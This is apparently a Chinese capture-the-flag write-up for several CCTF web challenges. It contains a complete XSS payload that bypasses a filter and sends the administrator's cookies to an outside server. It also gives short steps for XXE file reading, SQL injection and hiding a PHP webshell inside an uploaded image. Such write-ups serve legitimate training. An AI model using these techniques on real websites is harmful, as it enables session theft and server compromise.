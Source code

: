     大黑阔purpleroc研究了一种不怕被黑阔爆破的shell，0372去purpleroc的blog翻了一份字典怎么都爆破不出来Orz。他只好把题目扔给CCTF的参赛菊苴们来解决了(๑• ̀ᄇ•)́ وﻭ
    hint:这是一个SHELL！！

    http://103.224.81.149:23333/328dab5c4d428b2721397b424f3d6b42.php

    传phpspy执行

### 子卓女神 (150pt)

    情窦初开的小学弟子卓，认识了他的女神，可是却猜不出女神的想法，你可以帮他么？

    http://103.224.82.130:11111/

    先点提交看下页面,发现用了strcmp,查之发现一个漏洞,利用得flag
    ![](http://ac-HSNl7zbI.clouddn.com/WFGU2yVQ12UUPFE8WnkDDHsFCwUn7OWt3ztoFR9F.jpg)

### Funny XSS (200pt)

    破解大黑阔RickGray的Shell后 0372发现大黑阔RickGray自己写了一个XSS防护系统,
    0372看了半天但是却一直没发现有什么猫腻(๑°ㅁ°๑)
    Who Can Bypass mb_ereg_replace?
    {管理员用FireFox}
    (将构造好的payload 发送到Email(gankyou@0xfa.club) Cookies带有flag)

    http://103.224.81.149:23333/2c71e977eccffb1cfb7c6cc22e0e7595.php?x=asd

    直接payload:

`103.224.81.149:23333/2c71e977eccffb1cfb7c6cc22e0e7595.php?x=%ce%3cimg%20src=xss.jpg%20onerror=%28window.location.href=%27http://www.[url].com/cookie.php?value=%27%2bdocument.cookie%29;//`

### 招聘 (300pt)

    0372经过一系列的吊打 觉得自己吊吊哒 于是就是当地安全鸡公司投了简历。。
    结果被呵呵了。。

    hint：开发人员常常在部署环境的时候会忽视一些东西 :(
    ：ide

    http://103.224.82.130:12345/jianli.php

    xxe:发现有个/.idea/workspace.xml （跪WVS）发现目标php页面xxe读之 然后base64解密

### 安全鸡 (400pt)

    0372由于之前的面试被当地的安全鸡公司吊打了Orz。。
    于是便拿起罪恶的电脑(╯>д<)╯ 但是发现他们防御系统好强∑(っ°Д°;)っ 完全把0372这种tools boy挡住了，
    于是又一次。。@CCTF参赛菊居们 (、*●ω●)、

    http://103.224.81.149:43333/7e2363db433a20fc31d9c2fa9a19fc09

    WEB400放出hint 请在QQ群内找群主私聊

    上来先sqlmap,发现卡在表结构不能出字段,手注之;然后是找后台,表名+login.html,php的不行;然后发现是个小小小小的后台,显然禁止改动了,看upload在不在;然后是个上传,a.php.gif图片里插一句话就好

### MISC (100pt)
